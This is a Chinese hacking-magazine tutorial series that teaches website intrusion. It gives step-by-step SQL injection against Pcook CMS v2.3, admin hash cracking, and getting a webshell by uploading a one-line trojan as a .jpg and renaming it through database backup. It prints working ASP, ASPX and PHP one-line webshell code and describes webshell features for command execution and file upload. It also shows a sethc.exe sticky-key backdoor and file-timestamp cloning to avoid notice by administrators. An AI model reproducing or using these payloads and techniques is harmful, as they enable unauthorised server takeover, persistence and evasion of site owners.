

## 四、Access数据库注入点拿webshell

有时我们会遇到Access数据库类型的注入点，如果运气好的话用工具猜解出管理员的用户名和密码，成功登录进入后台，就可以想办法拿webshell了。

接下来我就用不久前爆出搜索型SQL注入漏洞的Pcook CMS文章管理系统v2.3。存在注入漏洞的文件是网站根目录下的search.asp。在“站内搜索”的搜索框中输入网站存在的一篇文章标题，比如我输入一篇新闻资讯的题目“测试发表文章”，然后点搜索，就会发现浏览器地址栏变为：

`http://127.0.0.1/Search.asp?KeyWord=%B2%E2%CA%D4%B7%A2%B1%ED%CE%C4%D5%C2&Submit=%CB%D1%CB%F7`

去掉`&Submit=%CB%D1%CB%F7`，剩下的

`http://127.0.0.1/Search.asp?KeyWord=%B2%E2%CA%D4%B7%A2%B1%ED%CE%C4%D5%C2`

就是注入点。可惜这个注入点在啊D和Domain中都不认为是，只有使用pangolin能检测到。把注入点直接填到pangolin里进行检测，检测结果如图22所示，发现关键字，注入类型选择Search（也就是搜索型），数据库选择Access，再次点“检查”按钮进行检测，如图23，再次检测结果出来了，如图24。



下面就是猜解了。Pcook CMS文章管理系统v2.3存储管理员用户的表`pcook_Admin`和存储管理员用户名和密码的列`Admin_Name`和`Admin_Pass`在pangolin的表文件和列文件中不存在，需要打开pangolin目录下的`tables.txt`和`columns.txt`分别添加表名和列名。添加完成后依次点“获取表”“获取列”“获取数据”，成功猜解出了管理员用户名admin和经过MD5加密的管理员密码`469e80d32c0559f8`。到在线破解网站`http://www.cmd5.com`破解出管理员密码为admin888。在网站地址后面加上admin来到了后台登录界面，使用猜解出的用户名和密码成功登录进后台，如图25。


再来想办法得到webshell。在后台发现有数据库备份的地方，考虑上传一句话木马。在“文章管理”里添加文章，通过上传图片功能把后缀名改成`.jpg`的一句话木马传上去，如图26。传上去的图片相对地址为：

`../UploadFiles/200971048737845.jpg`

来到数据库的地方，选择备份，当前数据库路径就填写传上去图片的地址`../UploadFiles/200971048737845.jpg`，备份数据库目录不能自定义，只能保持默认，备份数据库名称填写`hackerxfilex.asp`，点“确定”按钮进行备份，如图27。

一句话的访问地址为：

`http://127.0.0.1/data/bak/hackerxfilex.asp`

使用一句话木马客户端连接成功，如图28。


在备份的时候没有判断要备份的文件是否为数据库文件。如果判断了，备份时会提示要备份的文件不是合法的数据库文件。那么我们新建一个空的数据库文件，把一句话插入到里边，把后缀改成`.jpg`后上传上去，就可以成功备份了。

### 五、PHP简单注入

为了给大家演示，我从网上找到构造PHP注入点的代码，在虚拟机的PHP环境下弄出了一个简单的注入点。注入点地址是`http://127.0.0.1/test.php?id=1`，直接在浏览器中访问的结果如图29所示。使用pangolin v1.3检测的结果如图30所示，把数据库类型设置为MySQL后的检测结果如图31所示，多出了“信息”“获取数据”“文件读取”“写文件”四个功能选项。


先来看“信息”，选择“选择所有”，点“开始”按钮就开始获取信息了。得到的信息如图32所示。选中名为phpzr的数据库，点击图中的“使用该数据库”按钮，然后切换到“获取数据”选项，依次点击“获取表”“获取列”“获取数据”就可以猜测内容了，如图33。

“文件读取”可以读取一些文件内容，可以帮助我们获得想要的信息。图34是读取`c:\boot.ini`的结果。


“写文件”可以在`magic_quotes_gpc = Off`的情况下写文件到服务器，在网站目录下写入PHP一句话木马就可以得到webshell。可惜我在虚拟机中把magic_quotes_gpc设置为Off后，pangolin v1.3检测结果仍然显示为`magic_quotes_gpc = On`，就不能为大家演示了，如图35。


好了，今天主要介绍了在使用工具进行注入时，根据不同情况采用相应的方法来拿下服务器或得到webshell的方法。希望大家结合上一节课的内容，下课后多做实践，学会如何用工具进行注入攻击。

（本文所涉及到的3389(2000).reg、3389(2003).reg、down.vbs、GetWebShell陆羽增强版v1.1、lake2的eval最小马发送端、lcx、Domain、啊D、NBSI、pangolin v1.3已收录到光盘中。）

图


## 黑客兵器谱之webshell大检阅（上）

txcbg

某日，txcbg正在挂着QQ，突然有人加他为好友，说是X小编咖啡的表弟，询问了一下咖啡还真是，于是就通过了验证。客套几句后他就嚷着要拜txcbg为师父，要跟着学习黑客技术。这可真是奇怪了，为什么不跟咖啡学啊？他解释说咖啡嫌他没啥基础，所以先让他到菜鸟学堂学些基础的东西。好心肠的txcbg就答应了，把以前菜鸟学堂讲课的笔记借给了他，并叮嘱他仔细看，不会的再来问。这小子挺聪明的，不到一个月就基本掌握了txcbg以前在菜鸟学堂讲过的内容，可以跟着叉子们来听课学习了。为了亲切，我们就喊他小咖啡吧！

8月下旬，立秋已经有一段时间了，早晨和晚上能感觉到凉爽了很多。这天来到菜鸟学堂上课的叉子发现txcbg老师领着一人来了，大家正私下嘀咕着那人是谁时，txcbg说话了：“大家好，欢迎大家这个月准时来上课，今天我给大家介绍一位新同学，他叫小咖啡，以后还希望大家能够多多关照，大家欢迎一下。”说完后，txcbg带头呱唧了几下，然后准备正式讲今天的课。

“今天我要给大家介绍的黑客工具是——webshell。许多介绍网站入侵的文章都经常能说到 webshell，之后经过提权再拿到服务器权限。那么究竟什么是 webshell 呢？”

“web”的含义显然是需要服务器开放 web 服务，“shell”的含义是取得对服务器某种程度上的操作权限。“webshell”说白了就是可以放在 web 服务器上运行的一些脚本文件，只不过这些脚本文件是经过精心构造的，可以执行一些管理 web 服务器的功能，也称为网页木马（注意和网站挂马的网马不是一个东西）。根据所使用的脚本语言不同，webshell 可以分为 asp webshell、asp.net webshell、php webshell 和 jsp webshell 等。根据 webshell 的大小和功能的多少又分为小马和大马，体积小的、功能少的叫做小马，体积大的、功能多的叫做大马。

在 webshell 中，还有一个比较特殊的成员，那就是一句话 webshell，也叫一句话木马。特殊在哪儿呢？一句话木马分为客户端和服务端，只有服务端需要放在 web 服务器上，而在你的电脑上运行客户端连接上服务端后，就可以使用各种控制功能了。服务端代码通常都非常短，往往就一句代码。

别看一句话木马的服务端代码非常少，但功能却很强大，几乎完全可以当作大马使用了（以前我有个错误的认识，认为一句话木马就是小马，得到一句话木马后再传个大马上去才算拿到 webshell，后来经一高人的提醒我才意识到很多情况下一句话木马的功能已经完全够用了）。一句话木马的服务端代码很少，因此很多杀毒软件都不查杀（目前比较著名的、常用的大马可是被杀毒软件盯得很紧的），所以我特别喜欢使用一句话木马，能用一句话木马完成的事我是坚决不用大马的。根据一句话木马服务端所用代码的不同，也可以分为 asp 一句话木马、asp.net 一句话木马、php 一句话木马、jsp 一句话木马等。

## 一、asp一句话木马

说了半天的一句话木马，它到底长什么样呢？下面我们先来看 asp 环境下的一句话木马，也就是 asp 一句话木马。来看一个 asp 一句话木马的服务端，代码为 `<%execute request("x")%>`，把这句话代码保存为一个后缀为 .asp 的文件，比如 2.asp，存放在支持 asp 的 web 服务器的网站目录下就可以使用了，其中 x 是连接时的密码。这个服务端程序的特点是直接访问时会有“类型不匹配: 'execute'”的错误提示，如图1。


再来看看另一个 asp 一句话木马的服务端，代码为 `<%eval request("x")%>`，其中 x 还是连接时的密码，功能跟上面的那个差不多，只是直接访问服务端时不会有出错提示的，只会显示一个空白页，如图2。


由于不会有错误提示，我更喜欢这个。这两个的功能都差不多，可以使用同一个客户端来进行控制。上面我已经说过，一句话木马分为服务端和客户端，服务端有了，下面来说对应的客户端。比较常用的有 lanker 微型 PHP+ASP 管理器 1.0 双用版和 lake2 的 eval 最小马发送端这两个，其中 lake2 的 eval 最小马发送端支持 `<%execute request("x")%>` 和 `<%eval request("x")%>` 两种形式的服务端，而 lanker 微型 PHP+ASP 管理器 1.0 双用版只支持 `<%execute request("x")%>` 形式的服务端，因此为了通用性，我一般使用 lake2 的 eval 最小马发送端。

asp 一句话木马的服务端代码非常少，客户端也非常小。比如 lake2 的 eval 最小马发送端的主文件就是一个只有 2.25KB 的 .htm 文件，使用浏览器打开后显示如图3所示。


并且浏览器会给出一个“为了有利于保护安全性，Internet Explorer 已限制此网页运行可以访问计算机的脚本或 ActiveX 控件。请单击这里获取选项...”的提示。我们在提示上单击，然后选择“允许阻止的内容”，在弹出的安全警告对话框中点“是”，客户端就能正常使用了。

为了演示，我在虚拟机里运行了 Windows 2003 系统，web 服务器为 Microsoft-IIS/6.0。新建一个网站，在网站根目录下放了代码为 `<%eval request("x")%>` 的一句话木马服务端，服务端的文件名为 1.asp，访问地址为“http://127.0.0.1/1.asp”。在 lake2 的 eval 最小马发送端的“The URL:”栏填写一句话木马的地址，也就是“http://127.0.0.1/1.asp”，“Password:”后面填上密码“x”，“Function:”保持默认的 About，点击“Send”按钮，如果能看到“Hello, World!”就说明一句话木马连接成功了，如图4。


这是一个一句话木马，功能都是靠函数实现的，一个函数对应一个功能。lake2 的 eval 最小马发送端的功能函数包括 About 在内共有 16 个，下面我们来一一介绍：

- About：可以检验一句话木马是否连接成功。  
- Server Variable：对应的是服务器信息，选中这个函数然后点“Send”按钮就可以得到服务器的相关信息了，如图5。  
  其中有几个信息非常有用：  
  - APPL_PHYSICAL_PATH：显示网站根目录的物理路径，如果要通过一句话木马上传别的 webshell 会用到。  
  - PATH_TRANSLATED：是一句话木马服务端在服务器上的具体路径。  
  - SERVER_SOFTWARE：是 web 服务器软件，这里是 Microsoft-IIS/6.0。  
- Get Drives：可以列出 web 服务器上都有哪些磁盘，以及磁盘的总大小、剩余大小等，但这个需要权限，如果权限不够的话就会显示 Not Ready。  
- File List：可以列目录，输入想要列的目录路径，点“Send”按钮后就会列出该目录下的子目录和文件，如图6。


如果别的目录没有权限列目录，那么一句话木马所在的目录应该可以列。根据我的经验，“c:\windows\”和“c:\windows\system32\”也可以列（非 Windows 2000 系统）。

- Copy File&Folder：顾名思义，是拷贝文件用的，From 后面写要复制的源文件，to 后面写目标文件，注意文件都要带完整路径。  
  如果有权限复制文件的话，用处还是很大的，可以替换服务，还可以构造 shift 后门。有一次我通过一个 dbo 权限的注入点备份得到一句话木马的 webshell，发现可以通过复制粘贴的方式覆盖“c:\windows\system32\dllcache\sethc.exe”和“c:\windows\system32\sethc.exe”，又发现开了 3389，于是就直接使用“c:\windows\system32\cmd.exe”覆盖了这两个文件。然后来到 3389 登录界面，按了 5 下 shift 后就弹出了 cmd 窗口，建了个管理员用户登录进去就拿到了服务器权限。  
- Edit TextFile：可以查看和编辑一些文件的内容，比如可以通过查看 conn.asp 等数据库连接文件找到数据库文件路径或连接数据库的用户名和密码。图7就是查看一句话木马服务端 c:\www\1.asp 的内容。  
  如果想修改的话，直接修改内容后点“Submit”按钮就可以保存了。  
- New File&Folder：可以新建文件和文件夹。Path 后面填写 c:\www\123.asp，点“Send”按钮后就会在 c:\www 目录生成一个空白的 123.asp 文件，执行后的提示如图8所示，它会提示“Now you can edit it.”，也就是现在你可以编辑它了。  
- Upload TextFile：是专门上传别的 webshell 用的。比如我要上传一个提权用的 asp 大马到网站根目录下，把大马使用记事本打开，复制里面的所有代码并粘贴到“The TextFile Content”下面的输入框中，注意要把默认内容“Enjoy Hacking!”覆盖掉，Path 填写 c:\www\7.asp，也就是把大马保存为 c:\www 下的 7.asp，如图9。点击“Send”后提示保存成功，访问一下 http://127.0.0.1/7.asp，成功看到了登录页面，如图10。上传大马成功，以后大家也可通过它上传别的 webshell 到服务器上。


- DownLoad File：可以下载 web 服务器上的文件，在 FilePath 后面输入文件的完整路径和文件名，点“Send”就可以下载了。  
- Delete：可以删除文件。如果你想删除已经用完的 webshell，使用 Delete 功能删除是一个不错的选择，输入要删除文件的完整路径，点“Send”按钮就可以删除了。  
- Rename：可以对文件进行重命名，注意重命名的文件要带完整路径，新文件名不得带路径，如图11。  
- UploadFile From URL：可以从网上下载文件到 web 服务器上，“File from URL”后面写你要下载文件的 URL 地址，比如“http://sagi.org.cn/x.rar”，“SavePath”是文件保存到 web 服务器上的路径，比如“c:\www\xx.rar”。  
- WScript.Shell：可以通过 WScript.Shell 执行一些命令。如果系统目录下的 cmd.exe 提示没有权限的话，就可以上传一个 cmd.exe 到网站目录下，命令为 c:\www\cmd.exe /c net user，往往就可以执行了，其中“c:\www\cmd.exe”是你传上去的 cmd.exe 路径，如图12、图13。


- ReadReg：可以读取注册表的键值，比如“HKLM\SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName\ComputerName”读取的就是计算机名。  
- 如果你得到了 mssql 数据库 sa 用户的密码，可以使用 SQLRootKit 来执行 cmd 命令，而且是 system 权限。  
- Database：好像可以对数据库进行查看和编辑，但我在本机测试没有成功。  
- Your Code：允许你自己编写 asp 代码，然后让 web 服务器运行，比如作者给的代码 `response.write(now()&"<br>")` 就可以显示服务器的当前日期和时间，如图14。


图14

我们花了很长时间来详细介绍 asp 一句话木马的使用。其实很多一句话木马，虽然所处的 web 环境不同，但使用方法基本上都是相通的。不管是什么 asp 一句话木马、asp.net 一句话木马，还是 php 一句话木马，有些功能是它们都有的。掌握了一个一句话木马的使用，再学习其他一句话木马的使用就简单得多了。

## 二、asp.net一句话木马

目前很多 web 服务器都支持 asp.net（尤其是 Windows 2003 服务器），又因为一般情况下 asp.net 的运行权限要比 asp 高，所以 asp.net 的一句话木马也经常会用到。使用得比较多的是 MIAO 的 aspx 一句话木马，它的服务端代码为 `<%@ Page Language="Jscript" validateRequest="false" %><%Response.Write(eval(Request.Item["miao"],"unsafe"));%>`，其中 miao 是密码。asp.net 一句话木马的服务端需要保存为扩展名为 .aspx 的文件，比如 1.aspx。

我在虚拟机的 Windows 2003 系统中使用 Microsoft-IIS/6.0 搭建了支持 asp.net 的环境，网站根目录还是 c:\www\。把 MIAO 的 aspx 一句话木马服务端保存为 1.aspx，放在网站根目录下，访问地址为“http://127.0.0.1/1.aspx”，直接访问时显示为空白页。如果直接访问时出错，可能是你的 asp.net 环境没有搭建好。下面请出客户端，这是一个 .html 文件，打开后如图15所示（还是允许脚本运行，下面其他的一句话木马客户端都允许脚本运行，以后不再说明）。


图15

下面默认显示的是作者 MIAO 的 blog。在“站点”后面填上 asp.net 一句话木马服务端地址“http://127.0.0.1/1.aspx”，“口令”后面输入连接密码，默认是 miao，然后点“连接”按钮进行连接。如果原来显示作者 blog 的地方显示了一句话木马服务端所在的物理路径，就说明连接成功了，如图16。在“路径”后面输入路径，然后点“查看”按钮就可以查看该目录下的文件夹和文件了，如图17。


图16


图17

“移动复制文件”可以对 web 服务器上的文件进行移动和复制操作；“下载编辑文件”可以下载 web 服务器上的文件，还可以对文件进行编辑和删除；“运行程序”可以通过 cmd.exe 执行一些命令。aspx 一句话木马的权限要比 asp 一句话木马高，使用系统默认的 c:\windows\system32\cmd.exe 就可以执行命令，“参数”后面写上“/c net user”，然后点“运行”按钮就可以执行了，比如 /c net user，运行结果如图18所示。

“主机信息”可以获取一些 web 服务器的信息，点“信息”按钮后就会得到机器名、操作系统、操作系统 IP 地址等基本信息了；“进程”会列出当前的进程信息，如图19，可惜我看着都有些迷糊了。


图18


图19

“用户信息”估计能列出当前用户的一些信息，但是它后面却出错了，可能是权限的问题。“上传文件”可以把你本机上的文件上传到 web 服务器上，通过“浏览”按钮选择本地要上传的文件，“保存”后面输入你想把文件保存在服务器上的完整路径，然后点“上传文件”按钮就可以把文件传上去了，上传成功后会提示“System.Web.HttpFileCollection”，如图20。如果服务器支持 asp.net，asp 一句话木马有些权限不够，这时候就可以考虑上传 asp.net 一句话木马了。


## 三、php一句话木马

现在有越来越多的大网站、大论坛都使用了 php 程序来搭建，因此 php 一句话木马就变得必不可少了。比较常见的一个 php 一句话木马的服务端代码为 `<?php eval($_POST[x]);?>`，其中 x 还是密码。把这句代码保存为 .php 文件就可以解析了（如果是 Apache+PHP+MySQL+phpMyAdmin 搭建的 php 环境，默认还支持类似 .php1、.php5 等扩展名）。

为了演示，我在虚拟机中使用 Windows 2003 系统搭建好了一个 php 环境，具体 web 环境为 Apache+PHP+MySQL+phpMyAdmin+Zend，网站根目录为默认的“C:\Program Files\Apache Group\Apache2\htdocs\”。把 `<?php eval($_POST[x]);?>` 保存为 1.php，放到“C:\Program Files\Apache Group\Apache2\htdocs\”目录下，访问地址为“http://127.0.0.1/1.php”，直接访问也显示空白页。

php 一句话木马的客户端我喜欢使用 lanker 一句话 PHP 后门客户端 3.0 内部版，这是一个 26KB 的 .htm 文件，打开后显示如图21所示。在“后门地址”栏填写 php 一句话木马服务端地址“http://127.0.0.1/1.php”，密码填 x，在功能菜单中选择第一个“php 环境变量”，点“提交”按钮后显示如图22所示。


成功显示了 php 的环境变量，通过信息显示我们知道 PHP 的版本为 Version 5.2.8，php 配置文件为 C:\php\php.ini。“服务器基本信息”则会列出服务器的基本信息，比如这个服务器的操作系统为 WINNT，服务器操作系统文字编码为 zh-cn，服务器 IP 为 127.0.0.1，Web 服务端端口为 80，PHP 运行方式为 APACHE2HANDLER，如图23。


“本程序目录”可以列出这个 php 一句话木马服务端所在的物理路径，这里显示的为“C:\Program Files\Apache Group\Apache2\htdocs”。

下面来看关键的“执行 CMD 命令”功能，在这里可以执行 CMD 命令。在 Apache+PHP+MySQL+phpMyAdmin 搭建的 php 环境中，默认配置的情况下 PHP 文件是以 system 权限运行的。因此对于这种 PHP 环境，又是默认配置的 web 服务器上的 php 一句话木马，就可以以 system 权限执行任意系统命令，可以说拿到了这样的 webshell 也就等于拿到了服务器权限。如图24所示就是执行 whoami 命令后的结果，显示为“nt authority\system”，也就是 system 权限。


可惜很多虚拟主机虽然也支持 php，但它们的 php 环境却是 IIS+PHP+MySQL+phpMyAdmin 搭建的，php 文件的运行权限很低，获得 webshell 后要想得到服务器权限还得经过提权才行。

“无回显 CMD 命令”也是执行 cmd 命令，只不过是把命令的回显输出到一个文件。另外它还支持自定义 cmd.exe 的路径，方便大家使用自己传上去的 cmd.exe。在 Windows 2003 下要把默认文件“c:/winnt/system32/cmd.exe”改为“c:/windows/system32/cmd.exe”，参数写“/c net user >c:/log.txt”就会把执行“net user”命令后的回显输出到 C 盘根目录下的 log.txt 中，如图25。

“读取目录”可以列出指定目录下的文件夹和文件；“创建目录”可以在 Web 服务器上新建目录；“删除目录”可以在 Web 服务器上删除已经存在的指定目录；“上传文件”可以把任意类型的文件上传到服务器的指定目录下。注意是任意类型的文件，前面介绍的 ASP 一句话木马上传只可以把文本文件传上去，可执行文件是没法上传的。

在“文件路径”下面输入想在服务器上保存的文件路径，我填的是“C:\Program Files\Apache Group\Apache2\htdocs”，通过“浏览”选择你要上传的文件，我选择了桌面上的一个 cmd.exe，点“提交”后就会把 cmd.exe 传到网站根目录下了，如图26。

“读取文件”可以读取指定文件的内容，通过这个功能我们可以读取到一些敏感信息，比如 MySQL 的配置文件 my.ini、PHP 的配置文件 php.ini 等。如图27所示，就是我读取的 c:\php\php.ini 的内容。

“创建文件”可以直接写一个文件到 Web 服务器上，在文件名后输入文件完整路径，填上文件内容，比如一个 PHP 大马代码，点“提交”按钮后就会把文件写上去，功能类似于 ASP 一句话木马的“UPLOAD TextFile”功能。

“复制文件”可以对服务器上的文件进行复制，注意源文件和目标文件都要带完整路径。“重命名文件”可以对服务器上的文件进行重命名操作，同样也要带上文件完整路径。“删除文件”可以删除服务器上的文件。“下载文件”可以把 Web 服务器上的文件下载到本地，包括内容为空的文件（ASP 一句话木马下载空文件时会出错，不能下载）。

“克隆文件时间”可以把你的文件修改时间克隆为别的文件时间，从而不容易被管理员发现。比如“C:\Program Files\Apache Group\Apache2\htdocs”下的 cmd.exe 是我刚刚传上去的，时间信息如图28所示。下面我来把它克隆为 c:\boot.ini 的时间：“参照文件”填写“c:\boot.ini”，“克隆文件”填写“C:\Program Files\Apache Group\Apache2\htdocs\cmd.exe”，点“提交”后提示“cmd.exe 的修改时间成功改为 2008-10-12 07:04:48！”。再来看 cmd.exe 的属性，修改时间果然更改了，如图29。

“在线代理”可以把 Web 服务器作为代理服务器去浏览网页，在“URL”后面输入你要访问的网站地址，比如 http://sagi.org.cn，点“提交”后就会通过 Web 服务器代理访问该网站了。

“执行 SQL 语句”可以在知道 MySQL 数据库名、数据库用户名和密码的情况下执行 SQL 语句。我连接的是 MySQL 的默认数据库 mysql，执行“show tables;”后的显示如图30所示，显示了 mysql 数据库中都有哪些表。

“读取注册表”可以读取注册表键值，比如默认读取的“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp\PortNumber”就是远程桌面的连接端口。“写入注册表”可以对注册表进行写入操作，似乎可以进行文件镜像劫持，有兴趣的朋友可以自己尝试下。“删除注册表”可以删除注册表键值。

如果你会 PHP 编程，就可以自己编写 PHP 代码，然后到“专家模式（自己写代码）”中去执行。图31就是执行 PHP 的“phpinfo();”函数后的显示。

采用 JSP 搭建的网站一般都是大网站和金融机构，虽然这样的网站比较少，但因为 JSP 一句话木马的权限一般都很高（system 权限），因此我们还是很希望得到 JSP 的 webshell。由于没找到好用的 JSP 一句话木马，在此就不能给大家详细介绍了，还望大家见谅。

本节课主要为大家介绍了 webshell 中的尖兵“一句话木马”，体积小、不容易被查杀是它们的共同特点，当然它们的功能也是很强大的。以后大家在入侵的时候，能用一句话木马完成的功能，建议不要上传别的 webshell，免得一旦被杀会引起管理员察觉。

讲得口干舌燥的 txcbg 无意间看到小咖啡正心神不安地看着自己手腕上的手表，连忙从裤兜里掏出手机看了一下时间，原来都到了吃中午饭的时间了，于是连忙说道：今天的课就先讲到这里，希望大家回去后多使用这一节课介绍的一句话木马，要做到熟练使用。在下节课中我继续介绍 webshell，大家下课。

（文章中所用到的 ASP 一句话木马、ASP.NET 一句话木马、PHP 一句话木马及其客户端已收录到光盘中）☒

## 黑客兵器谱之 Webshell 大检阅（下）

txcbg

连着下了几天的秋雨，虽然雨不大，淅淅沥沥的，但天气已经明显有些凉了。走在萧瑟的秋风中，看着地上枯黄的落叶，不知为什么会有一种凄凉的感觉。深秋马上就要来了，又一个冬天不远了。在 09 年有什么收获，自己也不好说，只能再次感叹时间飞快。趁现在天气不冷也不热，还是多做点自己的事吧。

在这个收获的季节，在祖国 60 岁生日之际，菜鸟学堂又开课了。随着上课铃声响起，一身秋装的 txcbg 老师走上了讲台：“菜鸟学堂的叉子们，大家好，很高兴继续为大家讲解黑客兵器谱系列教程。在上堂课中为大家介绍了 Webshell 中重要的成员——一句话木马，那么本节课就给大家介绍另外一个重要成员——大马。可能有小菜要问了，上堂课 txcbg 老师说一句话木马的功能已经很强大了，为什么还要介绍大马呢？一句话木马功能是很强大，但大马在实现某些功能时可能更方便快捷，而且很多大马都集成了提权功能，在提权时非常方便。比如很多大马都提供了快速收集目标服务器信息的功能，通过一句话木马也能达到目的，但操作比较繁琐。所以说一句话木马和大马各有所长。在得到一句话木马、且大马能顺利上传（不被杀）的情况下，上传合适的大马可以帮你快速达到目的。”

大马有很多，著名的也不少。由于时间关系，不能为大家一一介绍，只好每种 Web 环境下介绍一种。有机会的话大家自己找找别的大马用用看。先来介绍 ASP 环境下的大马。

### 一、ASP 大马

ASP 大马有很多种，和 ASPX 大马、PHP 大马、JSP 大马相比数量是最多的。在 ASP 环境下有很多著名的大马，比如海阳大马，网上介绍得太多，本文就不介绍了，大家可以上网搜索一下。今天我要介绍的是我的朋友 tang 推荐给我的一款 ASP 大马，用起来非常顺手。

为了方便演示，我在虚拟机系统中使用 IIS 6.0 搭建好了 ASP 环境。大马文件名为 dama.asp，保存到网站根目录下，访问地址为 http://127.0.0.1/dama.asp，输入默认密码 77169，点击“登录”后就进来了，如图1。

默认显示的是大马所在目录下的文件。这个大马集成了很多提权功能。最上面一行“提权目录”给出了提权时常用链接，直接点击如果存在的话就可以快速进入这些目录。比如点击“Program”就可以打开“C:\Program Files”目录，可以看到对方都安装了哪些程序。

把鼠标移到“查看硬盘”选项上就会自动打开盘符下拉菜单，点击盘符就会列出该盘根目录下的文件和目录（权限够的情况下），并且可以对文件进行编辑、删除、复制、移动等操作，如图2。

“站点目录”列出了大马所在网站根目录，我这里就是“C:\www”；“本马目录”则列出了本木马所在目录。由于我把大马放在了网站根目录下，所以这里还是“C:\www”。

“新建目录”可以新建一个目录。点它后浏览器会给出提示“此网站使用脚本窗口向您索取信息。如果您信任此网站，请单击此处允许脚本窗口”，单击该提示选择“临时允许执行脚本的窗口”，再次点击“新建目录”就会看到新建目录对话框。在输入框中输入要建目录的路径，比如我想在网站根目录“C:\www”下新建一个名为 test 的文件夹，就输入“C:\www\test”，如图3。

“新建文本”可以写一个文本文件到服务器上，也包括别的大马。在上面输入要保存文件的路径和文件名，下方文本框中填上文件内容，然后点“保存”按钮就可以了，如图4。

“上传文件”可以上传文件到 Web 服务器。在“上传路径”栏填写文件要保存在服务器上的路径和文件名，通过“浏览”按钮选择你要上传的文件，点击“上传”按钮就可以把文件传上去了，如图5。

“指定挂马”“快速挂马”“超强挂马”“超强清马”“超强替换”等功能都与挂马、清除挂马相关。我一向反感挂马，这里就不做介绍了，建议大家不要挂马。

“查找文件”可以搜索服务器上是否存在 ASP 木马，也可以搜索符合条件的文件。我们用得比较多的是搜索符合条件的文件，比如搜索数据库链接文件等。在“填入你要检查的路径”栏输入要在哪个目录下搜索文件，其中“\”代表网站根目录，“.”代表本程序目录。在“查找内容”栏输入搜索关键字，也可以不填写；还可以根据修改日期搜索文件，支持多个日期，多个日期使用“;”隔开，任意日期就填写 ALL；也可以根据文件类型搜索，输入要搜索文件类型的扩展名即可，注意不要带“.”。比如要搜索记事本类型文件，就输入 txt；多个类型之间使用“,”隔开；“*”表示所有类型。如图6所示就是我搜索 txt 类型文件的结果。

“可写目录”可以帮助我们寻找哪些目录可写，方便大家上传文件，如图7。默认列出了盘符以及常见的几个目录，直接点击后面的“详细报告”就会列出详细权限，C 盘的详细报告如图8所示。可以看到存在 2 个可写目录：“C:\Inetpub”和“C:\www”。

如果要查看指定文件夹下是否存在可写目录，在“指定文件夹查询”后面输入要查询目录，比如“c:\www”，然后点“生成报告”就可以看到结果了。

“免 FSO-WSH 写”在服务器不支持 FSO 的情况下可以尝试用它写文件到服务器上；“漏洞检测”可以探测服务器上的弱点，但在我这里可能由于权限原因，提示“缺少对象”；“终端端口”可以对特殊端口进行探测，比如 Telnet 端口、Terminal Service 端口、PcAnywhere 端口，如果计算机是自动登录的话，还会给出自动登录用户名，如图9。

